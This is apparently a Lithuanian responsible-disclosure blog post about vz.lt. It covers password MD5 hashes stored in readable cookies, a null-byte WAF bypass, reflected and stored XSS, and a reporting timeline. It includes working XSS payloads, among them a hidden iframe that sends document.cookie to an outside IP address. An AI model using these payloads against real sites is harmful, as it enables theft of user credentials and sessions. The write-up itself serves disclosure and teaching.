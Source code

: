﻿---
layout:     post
title:      "Kas skaito VŽ slapukus?"
date:       2022-05-02 08:00:00
categories: HackAndTell
cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
permalink:  /lt/blog/vz-slapukai
---
Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:

![VŽ slapukų sąrašas](vz_slapukai.png "Slapukai")

Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.

### Web programų 101

Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.

Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.

### Na ir kas?

Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino." Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.

Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaimė yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**

### Ieškome XSS

Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).

Serveris atsako pranešimu:

![ERROR: Script asdf is missing!](vz_script_asdf_is_missing.png "ERROR: Script asdf is missing!")

Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:

![SQL Injection. System will not process this request.](vz_sqli.png "SQL Injection. System will not process this request.")

Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:

![ERROR: Script (italic pradžia) asdf (italic pabaiga) is missing!](vz_script_asdf_is_missing_italic.png "ERROR: Script asdf is missing!")

Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)

Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) gauname:

![Access denied. Error 15. What happened? The request was blocked by security rules. Your IP: empty. Proxy IP: 107.154.76.234. Incident ID: empty. Powered by Imperva.](vz_access_denied.png "Access denied")

Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų. Ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/search/?search=vz.lt&researcher=&program=) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:

- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
- [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)

Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikė iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).

![VŽ akademija alert pranešimas su visais slapukais.](vz_akademija_xss.png "Alert su slapukais")

### Kas iš to alert?

Vietoj `alert` kenkėjiškas kodas galėtų pavogti užklydusio vartotojo slapukus. Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko, ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.

Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiustų [vz.lt](https://vz.lt) slapukus trečioms šalims.

<details>
  <summary style="cursor:pointer">▶ Proof of Concept:</summary>

  <script src="https://gist.github.com/jarlob/22dc518fbfbaa9b64653a220f9dce2e9.js"></script>
</details><br>

### XSS komentaruose Nr. 1

Komentarai - tai taikinys Nr. 1, nes leidžia įvesti kažką, kas bus parodyta kitiems vartotojams. Komentuojančio vartotojo vardas buvo tvarkingai atvaizduojamas net jei tas vardas turėjo specialių HTML simbolių, kaip `Vardas<script>alert(1)</script>`. Tačiau jei į tokio vartotojo komentarą kas nors atsakydavo, jo vardas buvo interpretuojamas kaip HTML kodas. Taigi, iš esmės užteko tam pačiam vartotojui atsakyti į savo paties komentarą, kad straipsnis su tokiu komentaru būtų "apkrėstas" kenkėjišku JavaScript kodų:  

![Stored VŽ XSS. Vartotojo su vardu &lt;script&gt;console.log(13)&lt;/script&gt; komentaras ir naršyklės developer tools console tabas su išvestu skaičiumi 13](vz_stored_xss1.png "Stored XSS")

Tikras kenkėjiškas kodas galėjo lengvai pamodifikuoti antraštę, kad nesimatytų `<i>` ir `<script>` pradiniame pranešime.  
Šis Stored XSS yra pavojingesnis už prieš tai aprašytą Reflected XSS nes:
1. Nereikia niekam siųsti specialiai paruoštų nuorodų arba apkrėtinėti trečiųjų šalių puslapių. Galima įterpti savo kodą tiesiai į VŽ komentarus. Aukai užtenka tiesiog atsiversti komentarų puslapį.  
2. WAF neapsaugo nuo tokio tipo atakos, nes nesugeba atskirti kur yra legitimus kodas, o kur yra įterptas.  

### XSS komentaruose Nr. 2

Po pranešimo VŽ pataisė šią spragą, o taip pat pradėjo filtruoti vartojo vardus vartotojo profilio nustatymuose. Tačiau pastebėjau dar vieną šio XSS atmainą. Tuo metu kai nieko neįtariantis vartotojas tik paspausdavo "Atsakyti" į kenkėjiško vartotojo komentarą, jo vardas vis dar būdavo interpretuojamas kaip HTML:

![Stored VŽ XSS. Vartotojo su vardu Mr&lt;script src=//45.rs&gt; komentaras ir iššokantis langas su tekstu www.vz.lt OK](vz_stored_xss2.png "Stored XSS")

Tai yra irgi Stored XSS, nors kiek mažiau pavojingas. Aukai reikėjo ne tik aplankyti užkrėsto straipsnio komentarus, bet ir paspausti "Atsakyti". Nors kai vartotojas norėdavo pasikeisti vardą, jis buvo filtruojamas, VŽ pamiršo filtruoti vartotojų vardus registracijos metų.

### Chronologija:

2022.01.28 - Išsiųstas el. laiškas VŽ Interneto produktų vystymo skyriaus vadovui ir [NKSC](https://www.cert.lt).  
2022.01.28 - Gautas patvirtinimas iš NKSC.  
2022.02.14 - NKSC pranešė, kad susisiekė su VŽ 2022.02.03 d. Dėl neaiškių aplinkybių mano el. laiškas jų nepasiekė.  
2022.02.14 - VŽ padėkojo ir pranešė, kad XSS ištaisytas, o "slapukų naudojimo planuojama atsisakyti".  
2022.03.09 - Išsiųstas el. laiškas apie Stored XSS VŽ komentaruose VŽ Interneto produktų vystymo skyriaus vadovui ir NKSC.  
2022.01.28 - NKSC pranešė, kad susisiekė su VŽ telefonu.  
2022.03.09 - VŽ padėkojo ir pranešė, kad pažeidžiamumas ištaisytas.  
2022.03.09 - Išsiųstas el. laiškas apie XSS kai vartotojas spaudžia "Atsakyti".  
2022.05.02 - VŽ vis dar saugo slaptažodžio MD5 reikšmę slapuke. Kiti pažeidžiamumai ištaisyti.  
